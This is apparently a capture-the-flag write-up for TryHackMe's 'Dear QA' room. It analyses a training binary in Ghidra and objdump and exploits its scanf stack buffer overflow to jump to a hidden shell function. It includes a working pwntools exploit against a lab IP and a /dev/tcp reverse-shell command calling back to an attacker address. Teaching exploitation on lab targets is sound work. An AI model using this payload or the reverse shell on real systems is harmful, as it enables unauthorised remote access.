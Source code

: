 ```yaml
---
layout: post
title:  "Dear QA"
categories: [tryhackme]
tags: [linux,elf,BOF,ghidra,objdump]
---
```


You can find this machine here : https://tryhackme.com/room/dearqa

### Understanding the `DearQA.DearQA` binary

The `segmentation fault` means that the software has attempted to access a restricted area of memory.
This means that maybe there is a buffer overflow vulnerability

![image]( /assets/img/dearqa/1.PNG)

### Analyzing the `DearQA.DearQA` in Ghidra 

#### Main Function

![image]( /assets/img/dearqa/2.PNG)

```c
undefined8 main(void)

{
  undefined local_28 [32];
  
  puts("Welcome dearQA");
  puts("I am sysadmin, i am new in developing");
  printf("What\'s your name: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00400851,local_28);
  printf("Hello: %s\n",local_28);
  return 0;
}
```

#### Vuln Function

![image]( /assets/img/dearqa/3.PNG)

```c
void vuln(void)

{
  puts("Congratulations!");
  puts("You have entered in the secret function!");
  fflush(stdout);
  execve("/bin/bash",(char **)0x0,(char **)0x0);
  return;
}
```

- The scanf is vulnerable to buffer overflow
- We know that the buffer size is 32 bytes, let's exploit it
- Also, we found the vuln function, our goal is to jump from the scanf to the vuln function
- This is possible by using the buffer overflow attack and call the address of the vuln function

### Finding the addresses using the objdump

```bash
objdump -d ./DearQA.DearQA
```

- main

```assembly
00000000004006c3 <main>:
  4006c3:       55                      push   %rbp
  4006c4:       48 89 e5                mov    %rsp,%rbp
  4006c7:       48 83 ec 20             sub    $0x20,%rsp
  4006cb:       bf 03 08 40 00          mov    $0x400803,%edi
  4006d0:       e8 4b fe ff ff          call   400520 <puts@plt>
  4006d5:       bf 18 08 40 00          mov    $0x400818,%edi
  4006da:       e8 41 fe ff ff          call   400520 <puts@plt>
  4006df:       bf 3e 08 40 00          mov    $0x40083e,%edi
  4006e4:       b8 00 00 00 00          mov    $0x0,%eax
  4006e9:       e8 42 fe ff ff          call   400530 <printf@plt>
  4006ee:       48 8b 05 1b 05 20 00    mov    0x20051b(%rip),%rax
  4006f5:       48 89 c7                mov    %rax,%rdi
  4006f8:       e8 73 fe ff ff          call   400570 <fflush@plt>
  4006fd:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  400701:       48 89 c6                mov    %rax,%rsi
  400704:       bf 51 08 40 00          mov    $0x400851,%edi
  400709:       b8 00 00 00 00          mov    $0x0,%eax
  40070e:       e8 6d fe ff ff          call   400580 <__isoc99_scanf@plt>
  400713:       48 8d 45 e0             lea    -0x20(%rbp),%rax
  400717:       48 89 c6                mov    %rax,%rsi
  40071a:       bf 54 08 40 00          mov    $0x400854,%edi
  40071f:       b8 00 00 00 00          mov    $0x0,%eax
  400724:       e8 07 fe ff ff          call   400530 <printf@plt>
  400729:       b8 00 00 00 00          mov    $0x0,%eax
  40072e:       c9                      leave  
  40072f:       c3                      ret    
```


- The hex value `0x20` is 32 in decimal 

![image]( /assets/img/dearqa/4.PNG)

- So the following assembly is the same with this c language representation : `undefined local_28 [32];`

```bash
4006c7:       48 83 ec 20             sub    $0x20,%rsp
```

- After that the scanf uses the defined buffer size to read the user input
- So the following assembly is the same with this c language representation : `__isoc99_scanf(&DAT_00400851,local_28);`

```bash
40070e:       e8 6d fe ff ff          call   400580 <__isoc99_scanf@plt>
400713:       48 8d 45 e0             lea    -0x20(%rbp),%rax
```

- vuln

```assembly

0000000000400686 <vuln>:
  400686:       55                      push   %rbp
  400687:       48 89 e5                mov    %rsp,%rbp
  40068a:       bf b8 07 40 00          mov    $0x4007b8,%edi
  40068f:       e8 8c fe ff ff          call   400520 <puts@plt>
  400694:       bf d0 07 40 00          mov    $0x4007d0,%edi
  400699:       e8 82 fe ff ff          call   400520 <puts@plt>
  40069e:       48 8b 05 6b 05 20 00    mov    0x20056b(%rip),%rax
  4006a5:       48 89 c7                mov    %rax,%rdi
  4006a8:       e8 c3 fe ff ff          call   400570 <fflush@plt>
  4006ad:       ba 00 00 00 00          mov    $0x0,%edx
  4006b2:       be 00 00 00 00          mov    $0x0,%esi
  4006b7:       bf f9 07 40 00          mov    $0x4007f9,%edi
  4006bc:       e8 8f fe ff ff          call   400550 <execve@plt>
  4006c1:       5d                      pop    %rbp
  4006c2:       c3                      ret
```

- The address of `vuln` is 00400686 in hex.

```bash
0000000000400686 <vuln>:
```

### Local exploitation

The little endian format of `0000000000400686` is `\x86\x06\x40\x00\x00\x00\x00\x00`

#### Explain the payload

1. "A"*32 to reach the maximum buffer capacity
2. "B"*8 to reach the RSP and put the address of the `vuln` function
3. The 

```bash
ruby -e 'print "A"*32 + "B"*8 + "\x86\x06\x40\x00\x00\x00\x00\x00"' | ./DearQA.DearQA
```

![image]( /assets/img/dearqa/5.PNG)

### Remote Exploitation

```bash
pip3 install pwntools
```

- final script

```python
from multiprocessing import context
from pwn import *


con = remote('10.10.115.156', 5700)

payload  = 'A'*32
payload += 'B'*8
payload += '\x86\x06\x40\x00\x00\x00\x00\x00'

con.recvuntil("What's your name: ")
con.sendline(payload)
con.interactive()
```

- in action & spawn revershe shell

```bash
python3 dearqa.py
sh -i >& /dev/tcp/10.18.45.56/4444 0>&1
```

![image]( /assets/img/dearqa/6.PNG)



